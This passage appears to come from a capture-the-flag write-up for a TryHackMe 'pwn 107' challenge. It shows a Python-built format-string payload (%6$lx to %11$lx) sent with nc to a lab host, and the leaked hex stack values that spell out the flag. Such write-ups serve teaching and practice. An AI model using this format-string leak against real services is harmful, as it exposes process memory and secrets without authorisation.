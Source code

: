But it doesn't return the entire *flag*, so we proceed iteratively.

```bash
$ python3 -c 'print("".join(f"%{i}$lx." for i in range(6,12)))' > remote

$ cat remote 
%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx.

$ nc 10.10.238.208 9006 < remote 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: 
Thanks 5f5530797b4d4854.5f3368745f6e3077.5961774133766947.3168745f446e615f.756f595f73315f73.7d47346c665f52.

```

![CyberChef 3](./cyberchef3.png)

GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
